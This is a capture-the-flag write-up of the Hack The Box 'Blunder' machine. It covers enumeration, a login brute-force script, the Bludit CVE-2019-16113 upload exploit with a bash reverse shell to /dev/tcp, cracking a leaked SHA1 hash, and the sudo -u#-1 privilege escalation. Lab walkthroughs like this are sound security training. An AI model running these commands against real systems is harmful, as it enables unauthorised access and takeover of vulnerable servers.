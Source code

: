 # Blunder
[Room Link](https://www.hackthebox.eu/home/machines/profile/254)

# Enumeration
Using nmap showed us that the only open port was port 80 so the attack would have to be possible using only HTTP.
Running dirbuster showed us that the website contained an /admin/ directory, this directory required a login.

![Admin login page using Bludit](bludit_login.png)

Logging into the website took me forever to figure out but when you find it it's pretty easy.
First thing that I got stuck on for a while was finding a valid userame, I had tried to bruteforce the site using 'admin' but after many failed attempts I gave up on this.
Eventually I realised that I must have missed something on the site and started scanning again with nikto and gobuster.
Nikto showed me that the CMS was Bludit (which you could already tell from the admin login screen) and nothing else important.
I decided to run gobuster to look for files with a .txt, .php or .html extension and eventually found todo.txt.
This file contained the username 'fergus', finding this earlier could have saved me a lot of time.

# Cracking the admin page
Now that we have a username we can crack it.
I found [this issue](https://github.com/bludit/bludit/pull/1090) on their github and edited it to read the rockyou wordlist.

```python
host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = []

def read_file(filename):
    with open(filename, 'r') as file:
        for line in file:
            wordlist.append(line.strip())

read_file('/opt/wordlists/rockyou.txt')
#...
```

So we have a login now right? Well no, we actually don't, fergus his password isn't in rockyou.
I got stumped a very long time here, I fired up another gobuster scan but I still couldn't find anything of note.
I was about to give up but then I remembered a note on the front page of the website.

>I created this site to dump my fact files, nothing more.......?

This gave me the idea to manually look trough the webpages in search of anything that seemed off, I had to do this multiple times until 1 thing stood out to me.
In the article about Stephen King he lists some actors who played in films, one of these "Roland Deschain" didn't have any spacing so it was spelled "RolandDeschain". I decided to try this as a password and if this didn't work I would try all actor names.
I'm unsure if I missed another hint but this ended up being the actual password for the fergus user.

Unless I missed something this feels like a very cheap way to hide the password to me but hey, I found it so let's keep going.

## Getting a shell
After finally logging in we are greeted with an admin menu.
![Admin Menu](bludit_dashboard.png)

While looking for an exploit to use on Bludit I found an exploit for a [Code Execution Vulnerability in the image upload](https://github.com/bludit/bludit/issues/1079), I attempted to run this exploit but failed at doing so because I didn't fully understand the exploit.
I ended up getting lucky because somebody made a script that does the exploit for you, [you can find it here](https://github.com/cybervaca/CVE-2019-16113).

```bash
python CVE-2019-16113.py -u http://10.10.10.191 -user fergus -pass RolandDeschain -c "bash -c 'bash -i >& /dev/tcp/<yourip>/1337 0>&1'"

# In another terminal
netcat -lvnp 1337
```

And boom! We have a shell as www-data now, it's not exactly the best shell to be in but it'll do.

## Upgrading ourselves
I started with some manual enumaration and eventually moved over to linpeas which revealed nothing of note except for the users 'hugo' and 'shaun'.
I had previously found the url to get to the content of the webpage (bl-content), in here you could see a databases folder but there was no database in there.
This gave me the idea to try to get to the bl-content directory inside of the shell. So I moved over to /var/www and to my surprise there were 2 bludit folders, 1 on version 3.9.2 (the one we exploited) and one on version 3.10.0a.
I checked the databases folder on the newer version and found a users.php file containing the following code.

```json
"admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""
}
```

User Hugo with a SHA1 encoded password, let's decrypt that, you could probably use hashcat but I decided to use [crackstation](https://crackstation.net/), the password is Password120.

## I am become root
Before becoming hugo I would recommend stabilizing your shell, if you don't know how here's an example using a python oneliner.

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
su - hugo
```

Now we can become hugo, if you didn't stabilize the shell you wouldn't have a pty so su wouldn't work.
We are ready to completely pwn the box now, checking sudo privileges shows us that we can exploit sudo.

>User hugo may run the following commands on blunder:
>    (ALL, !root) /bin/bash

If you've done a lot of CTFs before you might recognize that rule as [this exploit](https://www.exploit-db.com/exploits/47502)
Let's do what it says and become root.

```sh
sudo -u#-1 /bin/bash
```

Congratulations! You have completed the box.

## A little extra?
While exploring the shaun user I was able to find 2 screenshots, I moved these over to the bl-content/uploads directory to see if these were secrets.
I'm not sure why they're here but if you wanted to see them here u go.

![Shaun Screenshot 1](shaun1.png)
![Shaun Screenshot 2](shaun2.png)

## Conclusion
I feel like this was a really fun box, I learned that even the smallest 'mistakes' might be hints in these challeges and to never take any notes for granted.
I would say this box is about a 3/10 in terms of difficulty, definitely if you figure out what fergus his password is early.

